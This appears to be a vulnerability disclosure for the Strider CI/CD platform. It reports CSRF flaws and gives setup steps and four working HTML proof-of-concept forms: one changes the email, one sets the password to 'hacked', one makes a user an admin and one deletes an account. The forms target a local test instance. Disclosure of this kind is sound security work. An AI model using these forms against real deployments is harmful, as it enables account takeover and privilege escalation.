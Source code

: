 ## :writing_hand: Description

`Strider` is an Open Source Continuous Deployment / Continuous Integration platform. It is written in Node.js and Ember.js and uses MongoDB as a backing store. This platform is vulnerable to `Cross-Site Request Forgery (CSRF)`. It allowes an attacker to takeover accounts, privillege escalation and accounts deletion.

## :male_detective: Proof of Concept

1. Setup MongoDB
2. Install the package
```bash
git clone https://github.com/Strider-CD/strider.git
cd strider/apps/strider
npm i
node bin/strider addUser # add users accordingly
NODE_ENV=production npm start # start server
```
3. Login as admin
4. Use any of the CSRF POCs
#### Change email
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Change password
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/password" method="POST">
      <input type="hidden" name="password" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Privilege escalation
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/make_admin">
      <input type="hidden" name="user" value="user&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Account deletion
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/remove_user" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
